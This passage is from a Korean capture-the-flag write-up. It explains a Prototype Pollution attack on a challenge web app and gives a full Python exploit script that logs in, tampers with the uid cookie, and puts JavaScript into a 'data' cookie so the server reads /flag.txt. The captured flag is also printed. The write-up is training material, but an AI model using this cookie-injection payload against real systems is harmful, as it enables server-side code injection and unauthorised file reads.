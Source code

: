 즉, `href`, `protocol` 값 존재 / `auth`, `path` === `undefined` / `hostname`값이  `''`이고 `pathname`이 `/app/flag`가 되도록 Prototype Pollution 취약점을 통해 변조해주면 된다.            
                        
`{ href: 'a', protocol: 'file:', hostname: '', pathname: '/flag.txt' }` 로 설정해주었다.     
          
## Exploit Code             
      
```python
import requests, json
url = "http://3.34.190.217:24916"
# url = "http://localhost:24916"
# hspace{0eabbdb7a226290c9f5a6eae6d72d6c1}

s = requests.session() 
r = requests.post(
        f"{url}/register",
        json={
            "username": "guest",
            "password": "guest"
        })
print(r.text)

r = s.post(
        f"{url}/login",
        json={
            "username": "guest",
            "password": "guest"
        })
cookies = r.cookies.get_dict()
passwd, uid = cookies["passwd"], cookies["uid"]
print(r.text)
print(cookies)

cookies["uid"] = "0b11"
cookies["data"] = """1+1])%3Ba={}%3Ba.__proto__.href='a'%3Ba.__proto__.protocol="file:"%3Ba.__proto__.hostname=""%3Ba.__proto__.pathname="/flag.txt"%3BreadFile({})%3b//"""
r = requests.get(
        f"{url}/checkout",
        cookies=cookies)
print(r.text)
```
      
 ### FLAG
 hspace{0eabbdb7a226290c9f5a6eae6d72d6c1}     


